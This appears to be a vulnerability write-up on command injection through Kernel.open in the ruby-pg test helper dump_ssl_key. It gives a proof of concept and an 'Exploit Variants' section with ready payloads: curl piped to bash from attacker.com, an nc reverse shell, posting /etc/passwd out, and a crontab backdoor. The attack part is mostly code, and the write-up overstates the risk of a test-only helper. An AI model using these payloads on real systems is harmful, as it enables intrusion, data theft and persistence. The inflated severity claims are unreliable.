

# Vulnerability Overview Command Injection in File Operations ruby-pg
The vulnerability exists in the test helper functionality of ruby-pg, specifically in the `dump_ssl_key` method where `Kernel.open` is used with non-constant values. This creates a potential command injection vector through shell command interpretation.

**Key Characteristics**:
- **CVSS Score**: 8.1 (High) [AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H]
- **Affected Component**: Test helper utilities (`spec/helpers.rb`)
- **Attack Vector**: Local or remote (depending on test exposure)
- **Security Impact**: Arbitrary command execution under Ruby process context

```ruby
# Vulnerable Code (spec/helpers.rb:477-480)
def dump_ssl_key( key, name )
  open( name, 'w' ) {|f| f.write key.to_pem }
  File.chmod( 0600, name )
end
```

---

## Vulnerability Flow

### End-to-End Exploitation Path
1. **Entry Point**: Test file generation utilities
2. **Injection Vector**: Filename parameter passed to `Kernel.open`
3. **Interpretation**: Ruby's `open` interprets `|` as command pipe
4. **Execution**: Shell command execution through filename manipulation
5. **Impact**: Full system compromise under test runner privileges




## Step-by-Step Technical Flow

### Exploitation Process
1. **Identify Test Context**:
   ```bash
   bundle exec rspec spec/pg/connection_spec.rb -fd
   ```
2. **Control Filename**:
   ```ruby
   # In test setup
   test_key = generate_ssl_key
   malicious_name = "| curl http://attacker.com/shell.sh | bash"
   dump_ssl_key(test_key, malicious_name)
   ```
3. **Trigger Execution**:
   ```bash
   ruby -Ilib spec/pg/connection_spec.rb
   ```
4. **Payload Delivery**:
   - The `open` call interprets the pipe character
   - Executes the curl payload as shell command


## Proof of Concept
### Exploit Demonstration
```ruby
# proof_of_concept.rb
require './spec/helpers'

key = OpenSSL::PKey::RSA.new(2048)
exploit = "| echo 'pwned' > /tmp/poc; #"
dump_ssl_key(key, exploit)

# Verify:
system("cat /tmp/poc") # Outputs 'pwned'
```

**Execution**:
```bash
bundle exec ruby proof_of_concept.rb
```


## Technical Deep Dive

### Ruby's Dangerous File Operations
The vulnerability stems from Ruby's `Kernel.open` dual-use behavior:
```ruby
# Safe file access
open("safe.txt", "w") {|f| f.write "data" }

# Dangerous command execution
open("| ls -la /", "r") {|io| puts io.read }
```

**Vulnerable Pattern**:
```ruby
# In helpers.rb:
open(name, 'w') # name is test-controlled
```


## Impact Expansion
### Potential Attack Scenarios
1. **Supply Chain Compromise**:
   - Malicious test files in dependencies
2. **CI/CD Takeover**:
   - Exploit test runners in GitHub Actions
3. **Developer Workstation Compromise**:
   - Hook into local test execution

**Business Impact**:
- Source code theft
- Credential harvesting
- Lateral movement in build environments


## Exploit Variants
1. **Direct Command Execution**:
   ```ruby
   dump_ssl_key(key, "| nc attacker.com 4444 -e /bin/sh")
   ```
2. **Data Exfiltration**:
   ```ruby
   dump_ssl_key(key, "| curl -X POST --data @/etc/passwd attacker.com/exfil")
   ```
3. **Persistence**:
   ```ruby
   dump_ssl_key(key, "| echo '*/1 * * * * nc -lvp 6666 -e /bin/sh' | crontab -")
   ```

### Defense Verification
```bash
# Safe version verification
ruby -e "require 'pg'; puts PG.library_version"
bundle audit check
```
